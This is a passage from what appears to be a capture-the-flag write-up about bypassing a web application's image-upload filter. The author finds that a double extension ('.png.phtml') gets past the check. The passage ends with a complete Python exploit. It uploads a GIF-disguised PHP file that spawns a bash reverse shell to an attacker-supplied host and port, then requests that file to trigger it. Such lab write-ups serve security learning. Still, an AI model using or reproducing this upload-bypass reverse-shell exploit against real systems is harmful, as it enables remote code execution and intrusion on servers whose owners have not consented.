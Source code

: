 ![](/assets/img/thm/yotj/10.png)

We get a ssl certificate verification error. 

adding `verify=0` to requests in the code and printing the response. 

![](/assets/img/thm/yotj/11.png)

Hmm it detects the exploit.

Creating a html form and uploading image gives same error. :O lets check the login post request. the other Authentication bypass exploit found didn't work too as the installation folder has been deleted.

![](/assets/img/thm/yotj/12.png)

![](/assets/img/thm/yotj/13.png)

let's try adding the cookies in the request:

gives out errors in burp even for legit images. ;-; wtf

renaming file to `.png` in the exploit worked. after trying out all the php file extensions.  It ended up working with `.phtml`.
So it checks for the first extension and for php in the filename.
so `shell.png.phtml `works. ;-;

> The final exploit Python code:

```python
import requests
import os
import sys
requests.packages.urllib3.disable_warnings() 

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"mtest.png.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    cookies = {"isHuman":"1", "PHPSESSID":"a1pjqqrcl4c259fj606i1ojg3c"}
    x = requests.post(url, headers=headers, data=data,cookies=cookies, verify=0)
    print(x.text)
    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/mtest.png.phtml"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers, verify=0)
```
